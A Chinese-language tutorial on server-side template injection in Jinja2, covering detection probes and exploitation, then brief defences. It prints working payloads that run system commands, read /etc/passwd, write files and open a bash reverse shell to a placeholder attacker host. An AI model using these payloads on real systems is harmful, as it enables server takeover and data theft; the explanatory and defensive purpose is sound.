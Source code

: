 ### 服务端模板注入（SSTI）攻击技术详解

#### 1. 概述
服务端模板注入（Server-Side Template Injection, SSTI）是一种Web安全漏洞，攻击者通过向服务端模板引擎注入恶意代码，从而在服务器端执行任意代码。这种漏洞通常出现在使用模板引擎（如Jinja2、Twig、Freemarker等）的Web应用中，当用户输入被直接嵌入到模板中时，攻击者可以操纵模板的执行逻辑，导致严重的安全问题。

#### 2. 常见攻击手法

##### 2.1 直接模板注入
直接模板注入是最简单的攻击方式，攻击者直接将恶意代码插入到模板中。例如，在Jinja2模板引擎中，攻击者可以通过以下方式注入代码：

```python
{{ 7 * 7 }}
```

如果服务器返回49，说明模板引擎执行了注入的代码。攻击者可以进一步利用此漏洞执行更复杂的操作。

##### 2.2 间接模板注入
间接模板注入通常发生在模板引擎将用户输入作为模板的一部分进行处理时。例如，用户输入被用作模板变量，攻击者可以通过构造特定的输入来操纵模板的执行逻辑。

```python
{{ user_input }}
```

如果`user_input`是`{{ 7 * 7 }}`，服务器同样会返回49。

##### 2.3 利用模板引擎的特性
不同的模板引擎有不同的特性和语法，攻击者可以利用这些特性来执行更复杂的攻击。例如，在Jinja2中，攻击者可以利用`__builtins__`对象来访问Python的内置函数：

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

通过这种方式，攻击者可以枚举所有可用的类，并找到可以利用的类来执行任意代码。

#### 3. 利用方式

##### 3.1 执行系统命令
攻击者可以通过SSTI漏洞执行系统命令。例如，在Jinja2中，攻击者可以利用`os`模块来执行命令：

```python
{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['os'].popen('whoami').read() }}
```

这段代码会执行`whoami`命令并返回结果。

##### 3.2 读取敏感文件
攻击者可以利用SSTI漏洞读取服务器上的敏感文件。例如，读取`/etc/passwd`文件：

```python
{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['open']('/etc/passwd').read() }}
```

##### 3.3 写入文件
攻击者还可以利用SSTI漏洞在服务器上写入文件。例如，创建一个包含恶意代码的文件：

```python
{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['open']('/tmp/malicious.py', 'w').write('import os; os.system("whoami")') }}
```

##### 3.4 反弹Shell
攻击者可以利用SSTI漏洞在服务器上执行反弹Shell命令，从而获得对服务器的完全控制。例如，使用Python的`subprocess`模块执行反弹Shell：

```python
{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['subprocess'].Popen(['bash', '-c', 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'], shell=True) }}
```

#### 4. 防御措施

##### 4.1 输入验证和过滤
对用户输入进行严格的验证和过滤，确保输入不包含任何可能被模板引擎解析的代码。

##### 4.2 使用安全的模板引擎
选择安全性较高的模板引擎，并确保其配置正确，避免使用不安全的特性。

##### 4.3 限制模板执行环境
在模板执行环境中限制可访问的对象和函数，避免攻击者利用内置函数和对象执行恶意代码。

##### 4.4 定期安全审计
定期对Web应用进行安全审计，及时发现和修复潜在的SSTI漏洞。

#### 5. 总结
服务端模板注入（SSTI）是一种严重的Web安全漏洞，攻击者可以通过注入恶意代码在服务器端执行任意操作。了解SSTI的常见攻击手法和利用方式，并采取有效的防御措施，对于保护Web应用的安全至关重要。通过严格的输入验证、使用安全的模板引擎、限制模板执行环境以及定期安全审计，可以有效地防止SSTI漏洞的利用。

---

*文档生成时间: 2025-03-11 13:32:44*






















